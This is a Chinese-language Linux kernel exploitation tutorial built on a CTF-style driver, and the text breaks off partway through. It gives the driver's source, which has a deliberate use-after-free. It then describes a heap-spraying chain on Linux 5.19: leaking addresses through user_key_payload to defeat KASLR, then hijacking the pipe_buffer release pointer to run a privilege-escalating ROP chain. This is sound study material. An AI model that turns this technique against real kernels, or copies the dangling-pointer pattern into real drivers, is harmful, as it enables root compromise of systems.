# 【pwn4kernel】Kernel Heap Spraying技术分析

## 1. 测试环境

**测试版本**：Linux-5.19.0 [内核镜像地址](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/5.19.0/02/bzImage)

笔者测试的内核版本是 `Linux (none) 5.19.0 #1 SMP PREEMPT_DYNAMIC 2026-01-07 14:11:52 x86_64 GNU/Linux`。

**编译选项**：关闭`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_MEMCG`选项。开启`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_HARDENED_USERCOPY`、`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_BINFMT_MISC`、`CONFIG_E1000`、`CONFIG_E1000E`选项。完整配置参考[.config](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/5.19.0/02/.config)。

**保护机制**：KASLR/SMEP/SMAP/KPTI

**测试驱动程序**：笔者基于**RWCTF2023 - Digging into kernel 3** 实现了一个专用于辅助测试的内核驱动模块。该模块遵循Linux内核模块架构，在加载后动态创建`/dev/rwctf`设备节点，从而为用户态的测试程序提供了一个可控的、直接的内核交互通道。该驱动作为构建完整漏洞利用链的核心组件之一，为后续的漏洞验证、利用技术开发以及相关安全分析工作，提供了不可或缺的实验环境与底层系统支撑。

驱动源码如下：

```c
/**
 * Copyright (c) 2026 BinRacer <native.lab@outlook.com>
 *
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
 **/
// code base on RWCTF2023 - Digging into kernel 3
#include <linux/cdev.h>
#include <linux/device.h>
#include <linux/export.h>
#include <linux/fs.h>
#include <linux/gfp.h>
#include <linux/init.h>
#include <linux/module.h>
#include <linux/printk.h>
#include <linux/ptrace.h>
#include <linux/rwlock.h>
#include <linux/sched.h>
#include <linux/slab.h>
#include <linux/uaccess.h>
#include <linux/version.h>

#define CODECAFE 0xc0decafe
#define DEADBEEF 0xdeadbeef

struct chunk_t {
	size_t idx;
	size_t size;
	void *buf;
};

static struct chunk_t chunk[0x2] = { 0 };

static unsigned int major;
static struct class *rwctf_class;
static struct cdev rwctf_cdev;

static int rwctf_open(struct inode *inode, struct file *filp)
{
	pr_info("[rwctf:] Device open.\n");
	return 0;
}

static int rwctf_release(struct inode *inode, struct file *filp)
{
	pr_info("[rwctf:] Device release.\n");
	return 0;
}

static long rwctf_ioctl(struct file *file, unsigned int cmd, unsigned long arg)
{

	long ret = 0;
	size_t idx = 0;
	size_t size = 0;
	struct chunk_t user_chunk = { 0 };
	if (copy_from_user(&user_chunk, (void *)arg, sizeof(struct chunk_t))) {
		pr_info("[rwctf:] Error copy data ptr from user.\n");
		return -EFAULT;
	}
	idx = user_chunk.idx;
	size = user_chunk.size;
	if (idx > 1) {
		pr_info("[rwctf:] Index out of bounds.\n");
		return -EFAULT;
	}
	switch (cmd) {
	case CODECAFE:
		kfree(chunk[idx].buf);
		break;
	case DEADBEEF:
		chunk[idx].buf = kmalloc(size, __GFP_ZERO | GFP_KERNEL);
		if (chunk[idx].buf) {
			chunk[idx].size = size;
			chunk[idx].idx = idx;
			if (size > 0x7fffffff) {
				BUG();
			}
			if (copy_from_user
			    (chunk[idx].buf, user_chunk.buf, size)) {
				pr_info
				    ("[rwctf:] Error copy data from user.\n");
				ret = -EFAULT;
			}
		}
		break;
	default:
		pr_info("[rwctf:] Unknown ioctl cmd!\n");
		ret = -EINVAL;
	}
	return ret;
}

struct file_operations rwctf_fops = {
	.owner = THIS_MODULE,
	.open = rwctf_open,
	.release = rwctf_release,
	.unlocked_ioctl = rwctf_ioctl,
};

static char *rwctf_devnode(struct device *dev, umode_t *mode)
{
	if (mode)
		*mode = 0666;
	return NULL;
}

static int __init init_rwctf(void)
{
	struct device *rwctf_device;
	int error;
	dev_t devt = 0;

	error = alloc_chrdev_region(&devt, 0, 1, "rwctf");
	if (error < 0) {
		pr_err("[rwctf:] Can't get major number!\n");
		return error;
	}
	major = MAJOR(devt);
	pr_info("[rwctf:] rwctf major number = %d.\n", major);

	rwctf_class = class_create(THIS_MODULE, "rwctf_class");
	if (IS_ERR(rwctf_class)) {
		pr_err("[rwctf:] Error creating rwctf class!\n");
		unregister_chrdev_region(MKDEV(major, 0), 1);
		return PTR_ERR(rwctf_class);
	}
	rwctf_class->devnode = rwctf_devnode;

	cdev_init(&rwctf_cdev, &rwctf_fops);
	rwctf_cdev.owner = THIS_MODULE;
	cdev_add(&rwctf_cdev, devt, 1);
	rwctf_device = device_create(rwctf_class, NULL, devt, NULL, "rwctf");
	if (IS_ERR(rwctf_device)) {
		pr_err("[rwctf:] Error creating rwctf device!\n");
		class_destroy(rwctf_class);
		unregister_chrdev_region(devt, 1);
		return -1;
	}
	pr_info("[rwctf:] rwctf module loaded.\n");
	return 0;
}

static void __exit exit_rwctf(void)
{
	unregister_chrdev_region(MKDEV(major, 0), 1);
	device_destroy(rwctf_class, MKDEV(major, 0));
	cdev_del(&rwctf_cdev);
	class_destroy(rwctf_class);
	pr_info("[rwctf:] rwctf module unloaded.\n");
}

module_init(init_rwctf);
module_exit(exit_rwctf);
MODULE_AUTHOR("BinRacer");
MODULE_LICENSE("GPL v2");
MODULE_DESCRIPTION("Welcome to the pwn4kernel challenge!");
```

## 2. 漏洞机制

本内核模块提供了对两块内核堆内存的直接管理能力。在启用了 `CONFIG_SLAB_FREELIST_RANDOM` 防护的内核环境中，其提供的两种无约束的内存操作原语，可与内核其他子系统（如密钥管理、管道）产生复杂的交互。通过精心设计时序与利用统计学方法，可以构建一套高成功概率的操作链。该链的核心在于分两个阶段达成目标：第一阶段利用堆喷射与元数据篡改，通过合法接口实现内核地址信息泄露；第二阶段则利用获取的信息，通过内存布局操控伪造关键数据结构，最终引导内核控制流。

### 2-1. 核心功能

模块管理一个二元数组 `chunk`，通过 `ioctl` 提供两种原子操作：

- **`DEADBEEF`命令**：分配指定大小的内核内存并将用户数据拷贝至该缓冲区。包含对过大 `size` 的校验（触发 `BUG()`）。
- **`CODECAFE`命令**：释放指定缓冲区，但不会将 `chunk.buf` 指针置空，使其成为悬垂指针。

这两项操作允许对两个内核堆对象进行任意顺序的分配与释放，为后续精细操控特定 `kmalloc` 缓存（如 `kmalloc-192`）的对象状态提供了基础。

### 2-2. 关键约束：SLUB 随机化

内核启用了 `CONFIG_SLAB_FREELIST_RANDOM`，该机制改变了 SLUB 分配器的空闲对象管理策略。新释放的对象被**随机插入**空闲链表（freelist），而非置于头部，这彻底破坏了"释放后立即重新分配得到同一对象"的确定性，使得基于此确定性的传统内存操作模式失效。两种策略的对比清晰地展示了随机化带来的根本性改变：



如图所示，左侧传统 LIFO 策略中，对象的释放与重新分配形成一个**确定性循环**（由蓝色框体表示），为内存操作提供了可预测的路径。而右侧启用随机化后，该循环被打破，期望被重新分配的特定对象（A）其位置变得**不确定**（由橙色框体表示），从而将特定对象的获取概率从近乎必然降至低概率。

**关键影响：**

1. **确定性路径的中断**：传统的"释放-立即重新分配"确定性模式被打破
2. **特定对象获取概率降低**：获取特定对象的概率从 1 降至 1/N（N 为 freelist 长度）
3. **内存操作复杂度提高**：需要尝试大量分配操作才能获得特定目标对象

随机化机制通过引入**内存布局不可预测性**，有效增加了特定内存操作模式的复杂性，成为现代内核内存管理中的重要安全特性。

### 2-3. 阶段一：内核信息泄露

在随机化的约束下，直接控制特定对象变得困难。本阶段通过“堆喷射”技术，以统计学上的高概率主导特定SLUB缓存的状态，旨在篡改一个由密钥子系统管理但已被内核模块释放的 `user_key_payload` 对象的元数据。篡改的目标是扩大其 `datalen` 字段，从而为后续通过 `key_read` 系统调用进行越界读取创造条件，最终泄露内核函数指针并计算出基址，绕过KASLR。整个过程可分解为五个逻辑严密的步骤，其详细流程与原理如下图所示：



**流程图详解与步骤分析**：

#### 步骤1. 目标准备与初次释放

此步骤是操作的起点。模块通过 `DEADBEEF` 命令在 `kmalloc-192` 缓存中精确分配一个192字节的对象，称为“目标对象”（victim）。随后，立即通过 `CODECAFE` 命令将其释放。此时，`chunk[0].buf` 成为一个悬垂指针，而目标对象被插入由 `CONFIG_SLAB_FREELIST_RANDOM` 控制的空闲链表（freelist）中的随机位置。此步骤的目的是在特定缓存中创建一个可供后续操作“靶向”的内存区域。

#### 步骤2. 堆喷射填充缓存

为了克服随机化带来的不确定性，此步骤采用“堆喷射”策略。通过连续、大量地调用 `key_alloc` 系统调用，分配多个密钥。每个密钥的用户负载数据被设置为174字节（`PIPE_INODE_INFO_SZ - 0x18`），加上 `user_key_payload` 结构固有的0x18字节头部，其总大小恰好为192字节，与目标对象位于同一 `kmalloc-192` 缓存。当喷射数量 `N` 大于等于该缓存每个 `slab` 页的对象槽位数（通常为21）时，可以高效地填充当前活跃的 `slab` 页面。其直接效果是，步骤1中释放的目标对象有极高的概率被这些新分配的 `user_key_payload` 对象之一所占用。此时，`freelist` 中充满了因密钥创建而产生的大量空闲 `user_key_payload` 对象，为后续操作创造了密集的内存环境。

#### 步骤3. 二次释放构造悬垂引用

这是构造可利用状态的关键一步。再次调用 `CODECAFE` 命令释放 `chunk[0].buf`。由于步骤2的堆喷射，此时 `chunk[0].buf` 这个悬垂指针有极大可能指向一个正在被使用的、有效的 `user_key_payload` 结构。因此，这次释放操作并非无意义的空操作，而是**释放了一个仍被密钥子系统通过其 `key_id` 引用着的活对象**。这导致了一个危险的状态：内核密钥管理子系统认为某个 `key_id` 仍然有效并指向其负载数据，但该负载数据所在的内存块已被SLUB分配器标记为空闲并可重新分配。这种“一处内存，两种状态”的冲突是后续所有操作的基础。

#### 步骤4. 重新分配并篡改元数据

本步骤旨在利用步骤3创造的状态窗口，篡改目标密钥的元数据。首先，准备特定的数据载荷，其中关键是将 `user_key_payload` 结构中的 `datalen` 字段（通常位于负载数据开始后的特定偏移处）设置为一个远超实际大小的值，例如 `0x2000`。然后，通过模块的 `DEADBEEF` 命令，多次尝试重新分配192字节的内存。由于步骤3的释放，目标内存块（即那个已被释放但密钥仍引用的 `user_key_payload`）已回到 `freelist` 中。在步骤2造成的密集空闲对象环境下，单次分配请求命中这个特定内存块的概率 $$( P )$$ 可由公式 $$( P \approx N/(M+N) )$$ 估算（`M`为槽位数，`N`为喷射数）。当 `N=50` 时，`P≈96%`。通过多次尝试（例如 `KEY_SPRAY_NUM * 2` 次），可以以接近确定性的概率重新获得该内存块，并将预设的、包含超大 `datalen` 的数据写入其中，从而完成对目标 `user_key_payload` 头部的篡改。

#### 步骤5. 越界读取泄露地址

这是信息泄露的实现阶段。由于目标密钥的 `datalen` 被篡改为 `0x2000`，当通过 `key_read` 系统调用读取该密钥时，内核会依据这个被篡改的长度，从该 `user_key_payload` 结构开始，拷贝其后连续的 `0x2000` 字节内存到用户空间。这导致了越界读取。在读取到的数据中，包含紧邻 `user_key_payload` 的 `rcu` 回调头，其中的 `func` 指针指向一个静态内核函数（如 `user_free_payload_rcu`）。通过遍历读取到的数据，匹配该函数指针的已知低位特征，即可定位并提取出此地址。由于函数在内核镜像中的偏移是固定的，用泄露的地址减去该函数的已知偏移量，即可精确计算出当前内核的加载基址，从而完全绕过KASLR。

### 2-4. 阶段二：控制流引导

在成功获得内核地址布局信息后，第二阶段的目标是将内存操作技术应用于更复杂的内核数据结构，以实现最终的控制流引导。本阶段旨在通过类似的内存布局操控原理，构造特定的内存状态，使内核的管道子系统 (`pipe`) 将其内部数据结构分配到可控内存区域，并通过修改其中的函数指针，在管道关闭时引导执行流至预设的代码序列。此过程同样遵循分步、高概率的操作逻辑，其完整流程如下图所示：

```mermaid
flowchart TD
    A[阶段二目标: 引导控制流] --> B[步骤1: 准备管道对象内存布局]
    B --> C["分配两个pipe_inode_info大小对象 (192B) {alloc(0), alloc(1)}"]
    C --> D["释放对象1，然后释放对象0 {del(1), del(0)}"]
    D --> E["分配一个密钥并立即释放 {key_alloc(...); del(1)}"]
    E --> F["分配并释放pipe_buffer数组大小对象 {alloc(0, PIPE_BUFFER_SZ); del(0)}"]
    F --> G[步骤2: 触发管道结构分配]
    G --> H["调用pipe()系统调用 {pipe(pipe_fd)}"]
    H --> I["预期结果: 内核分配pipe_inode_info与pipe_buffer至预设区域"]
    I --> J[步骤3: 获取管道缓冲区地址]
    J --> K["通过关联的密钥读取内存 {key_read(pipe_key_id, rop_chain, 0xffff)}"]
    K --> L["从读取数据中解析pipe_inode_info->bufs获取pipe_buffer数组地址"]
    L --> M[步骤4: 构造ROP链并修改函数指针]
    M --> N["构建ROP链于rop_chain<br/>包含提权函数地址"]
    N --> O["重新分配pipe_buffer内存 {del(0); alloc(0, PIPE_BUFFER_SZ, rop_chain)}"]
    O --> P["修改pipe_buffer->ops指针指向伪造的pipe_buf_operations结构"]
    P --> Q[步骤5: 触发执行流转移]
    Q --> R["关闭管道文件描述符 {close(pipe_fd[1]); close(pipe_fd[0])}"]
    R --> S["内核调用pipe_buffer->ops->release()执行流跳转至ROP链"]

    style C fill:#e1f5fe
    style D fill:#fff3e0
    style E fill:#e1f5fe
    style F fill:#fff3e0
    style H fill:#f3e5f5
    style I fill:#fce4ec
    style K fill:#d4edda
    style L fill:#d1ecf1
    style N fill:#e1f5fe
    style O fill:#fff3e0
    style R fill:#c8e6c9,stroke:#4caf50,stroke-width:2px
    style S fill:#c8e6c9,stroke:#4caf50,stroke-width:3px
```

**流程图详解与步骤分析**：

#### 步骤1. 准备管道对象内存布局

此步骤的目标是为后续 `pipe()` 调用所需的内核结构创建有利的分配环境，是一种主动的内存布局“塑形”。

1.  **塑造 `pipe_inode_info` 缓存状态**：通过模块分配两个大小为192字节（与 `pipe_inode_info` 结构体匹配）的对象（分别由 `chunk[0]` 和 `chunk[1]` 管理），并依次释放（先释放索引1，后释放索引0）。这会在 `kmalloc-192` 缓存中制造特定顺序的空闲槽位，影响了空闲链表的顺序，增加了后续分配从这两个特定内存块获取对象的概率。
2.  **介入并细化布局**：接着，通过 `key_alloc` 分配一个密钥（例如命名为 `"BinRacerPipe"`）。根据堆喷射原理，此操作有高概率占据上一步释放的两个空闲槽位之一（尤其是 `chunk[1].buf` 曾指向的内存）。随后立即通过模块释放该密钥（`del(1)`）。这使得该内存块再次空闲，但通过密钥子系统的“中转”，内存布局的状态被进一步精确化。
3.  **准备 `pipe_buffer` 缓存**：同时，通过模块分配一个 `PIPE_BUFFER_SZ` 大小的对象（对应 `pipe_buffer` 数组），然后立即释放（`del(0)`），在相应的 `kmalloc` 缓存中为管道缓冲区结构预先准备一个空闲对象。

#### 步骤2. 触发管道结构分配

这是从布局准备到结构“置换”的触发点。调用 `pipe()` 系统调用创建一对新的管道文件描述符。此时，内核需要为新建的管道分配一个 `pipe_inode_info` 结构和若干个 `pipe_buffer` 结构。由于步骤1的精心布局，`kmalloc-192` 缓存中存在于近期操作过的、高概率处于空闲链表前部的特定内存块。因此，内核的内存分配器在响应 `pipe()` 的请求时，有很高的可能性会从这些预设的内存区域中分配对象。其预期结果是，新创建的管道，其内部的 `pipe_inode_info` 结构很可能位于之前被密钥占用后又释放的内存（与 `chunk[1].buf` 相关），而 `pipe_buffer` 数组则可能位于步骤3中准备的内存区域（与 `chunk[0].buf` 相关）。

#### 步骤3. 获取管道缓冲区地址

为了后续精确伪造 `pipe_buffer` 的操作函数表，需要知道 `pipe_buffer` 数组的具体内核虚拟地址。在步骤2中，曾分配并随后释放了一个与 `pipe_inode_info` 大小相同的密钥 (`pipe_key_id`)。如果管道结构成功分配到了预期的内存，该密钥释放前所占的内存可能与当前管道的 `pipe_inode_info` 结构位于同一位置。由于在阶段一可能已将密钥的 `datalen` 字段设置为较大值（如 `0xffff`），此时可以通过 `key_read` 读取该密钥 (`pipe_key_id`) 的内容。在读取到的数据中，可以解析出 `pipe_inode_info` 结构体内部的 `bufs` 字段（例如，根据结构体偏移，在通过 `rop_chain` 数组读取时，该字段位于索引16的位置，对应偏移0x80）。`bufs` 字段存储的正是 `pipe_buffer` 数组的起始地址。获取此地址（保存在 `pipe_buffer_addr` 中）是进行下一步精准构造的必要条件。

#### 步骤4. 构造ROP链并修改函数指针

在已知 `pipe_buffer` 地址后，进行最终的代码执行流引导准备。

1. **构建ROP链**：在用户态准备好的 `rop_chain` 缓冲区中，布置一系列内核函数的地址（通过阶段一泄露的基址计算得到）及必要参数，构成一个受限的ROP（Return-Oriented Programming）链。该链的最终目的是执行如 `commit_creds(prepare_kernel_cred(0))` 这样的权限提升原语，并妥善返回用户态。
2. **重新分配并伪造结构**：通过模块的释放与分配操作（`del(0); alloc(0, PIPE_BUFFER_SZ, rop_chain)`），尝试再次获取对 `pipe_buffer` 数组内存的控制。在成功获取后，模块会将包含ROP链数据的 `rop_chain` 缓冲区内容写入该内存。
3. **修改关键指针**：在写入的数据中，精心构造一个伪造的 `pipe_buf_operations` 结构（或直接布置数据使得原有结构被覆盖）。关键操作是将 `pipe_buffer` 结构中的 `ops` 字段（该字段在伪造的数据布局中的特定偏移处）修改为指向一个可控地址。例如，可以将其设置为 `pipe_buffer_addr + 0x18`，使得 `ops` 指针指向 `pipe_buffer` 数组内部可控的某个位置，而该位置已布置好了伪造的 `pipe_buf_operations` 结构。在这个伪造的结构中，将 `release` 函数指针的值设置为ROP链的起始地址（例如，一个 `push rsi; pop rsp; ret` 这类栈翻转指令的地址，用于劫持控制流到ROP链）。

#### 步骤5. 触发执行流转移

这是整个过程的最终步骤。当用户空间程序关闭此管道的文件描述符时（`close(pipe_fd[1]); close(pipe_fd[0])`），内核会执行管道销毁的例行操作，其中包括调用 `pipe_buffer->ops->release()` 函数来释放缓冲区资源。由于 `ops` 指针已被修改，指向精心伪造的函数表，而 `release` 指针又被设置为ROP链的起始地址，因此内核的执行流会被引导至预设的ROP链。ROP链中的指令序列将逐步执行，最终完成权限提升等操作并安全返回用户态，从而实现了从内存操作到代码执行的完整引导。

### 2-5. 机制核心总结

本机制展示了一种在现代内核随机化防护下，通过概率统计与精细内存操作实现特定目标的技术模型。其核心并非利用单一的编程缺陷，而在于**系统性地组合利用不同内核子系统对共享内存状态管理的不一致性**，可概括为以下三个递进层次：

1.  **SLUB分配器行为影响**：通过“堆喷射”技术，以高频、批量的分配操作在统计学上主导特定 `kmalloc` 缓存的活动状态。这有效对抗了 `CONFIG_SLAB_FREELIST_RANDOM` 引入的随机性，将不确定的内存分配转化为高成功率的操作序列，从而能够可靠地影响特定内存对象的释放与重新分配时序。

2.  **跨子系统内存状态不一致性利用**：模块与密钥管理子系统对同一块物理内存的状态认知产生了不一致。模块通过其命令接口释放并可能重用该内存，而密钥子系统仍保留着指向该内存的有效引用。这种“一处内存，双重状态”的不一致，使得通过模块写入的数据能够被密钥子系统通过其标准读取接口 (`key_read`) 访问，从而构造出合法的越界读取条件，实现了内核信息的非预期泄露。

3.  **内核对象生命周期的干涉与执行流引导**：在获取必要的内核地址信息后，该模型进一步对更复杂的内核对象（如 `pipe_inode_info`, `pipe_buffer`）的生命周期进行干涉。通过操控内存布局，使得内核在其他子系统（如管道）的正常分配流程中，将对象分配至预设的、部分可控的内存区域。最终，通过修改这些对象内部的关键函数指针（如 `pipe_buffer->ops->release`），将内核在特定事件（如关闭管道）触发后的执行流，引导至一段预设的指令序列，从而完成特定操作。

综上所述，该机制构成了一条逻辑严密的技术路径：起始于对内存分配器概率行为的主动影响，继而利用不同子系统间的状态管理间隙实现信息泄露，最终通过干涉内核对象生命周期并修改其函数指针来完成执行流的引导。整个过程深刻揭示了在内核复杂的多子系统交互模型中，对基础内存操作原语进行特定序列的组合，可能衍生出超越其设计预期的复杂行为。

## 3. 密钥管理子系统分析

本章节深入分析 Linux 内核密钥管理子系统的核心接口与数据结构。通过系统调用封装的用户空间函数，为与内核密钥子系统交互提供了基础。本节将详细解析每个关键函数的调用流程、内存管理行为及其在整体内存操作机制中的作用。

### 3-1. 核心数据结构

密钥管理子系统的核心是 `user_key_payload` 结构：

```c
struct user_key_payload {
    struct rcu_head rcu;        /* RCU 回调头 */
    unsigned short datalen;     /* 负载数据长度 */
    char data[] __aligned(__alignof__(u64)); /* 可变长度负载数据 */
};
```

该结构包含三个关键字段：

1. **`rcu`**：`struct rcu_head` 类型，用于 RCU 延迟释放机制
2. **`datalen`**：16位无符号整数，存储负载数据的实际长度
3. **`data[]`**：柔性数组，按8字节对齐，存储实际负载数据

### 3-2. 密钥创建 (key_alloc)

`key_alloc` 函数通过 `add_key` 系统调用创建新密钥，其内核调用流程如下：



**调用链详解**：

1.  **系统调用入口**：`add_key` 系统调用进入 `__x64_sys_add_key`。
2.  **参数处理**：经过 `__se_sys_add_key` 和 `__do_sys_add_key` 进行参数处理和转发。
3.  **description（描述字符串）分配路径**：
    - 核心函数 `key_create_or_update` 调用 `key_alloc` 来为新密钥分配基本结构。
    - `key_alloc` 内部通过 `kmemdup(desc, desclen + 1, GFP_KERNEL)` 从用户空间复制描述字符串，并在内核空间分配相同大小的内存。
4.  **payload（负载数据）分配路径**：
    - 在 `key_create_or_update` 中，通过调用密钥类型（`index_key.type`）的 `->preparse` 方法（对于用户密钥通常是 `user_preparse`）来处理负载数据。
    - `user_preparse` 函数通过 `kmalloc(sizeof(struct user_key_payload) + datalen, GFP_KERNEL)` 为密钥的负载数据分配内存。总分配大小为 `user_key_payload` 结构体（通常为0x18字节）加上用户指定的负载数据长度（`datalen`）。

### 3-3. 密钥更新 (key_update)

`key_update` 函数通过 `keyctl` 系统调用更新密钥负载：



**调用链详解**：

1. **系统调用入口**：`keyctl` 系统调用进入 `__x64_sys_keyctl`，根据命令码 `KEYCTL_UPDATE` 分发到 `keyctl_update_key` 函数
2. **临时缓冲区分配**：`keyctl_update_key` 中调用 `kvmalloc(plen, GFP_KERNEL)` 分配临时缓冲区，用于从用户空间复制数据
3. **数据复制**：通过 `copy_from_user` 将用户空间数据复制到内核临时缓冲区
4. **密钥查找**：通过 `lookup_user_key(id, 0, KEY_NEED_WRITE)` 查找具有写权限的目标密钥
5. **密钥更新**：调用 `key_update` 函数更新密钥
6. **负载预处理**：
    - 在 `key_update` 中，调用密钥类型的 `preparse` 方法（对于user类型是 `user_preparse`）
    - `user_preparse` 通过 `kmalloc(sizeof(struct user_key_payload) + datalen, GFP_KERNEL)` 分配最终的负载结构
    - 将临时缓冲区的数据复制到新分配的负载结构中
7. **负载替换**：
    - 调用密钥类型的 `update` 方法（`user_update`）
    - 保存旧payload指针用于后续释放
    - 通过 `rcu_assign_keypointer` 更新密钥的payload指针
8. **资源清理**：
    - 通过RCU机制安全释放旧payload
    - 释放临时缓冲区：`kvfree_sensitive(payload, plen)`

**关键点**：

- 使用**双重分配策略**：临时缓冲区（`kvmalloc`）用于用户空间数据复制，最终结构（`kmalloc`）用于密钥存储
- **RCU机制**：通过RCU延迟释放旧payload，确保并发安全
- **权限控制**：需要`KEY_NEED_WRITE`权限才能更新密钥
- **大小限制**：负载数据不能超过`PAGE_SIZE`（通常4KB）

### 3-4. 密钥读取 (key_read)

`key_read` 函数通过 `keyctl` 系统调用读取密钥负载：



**调用链详解**：

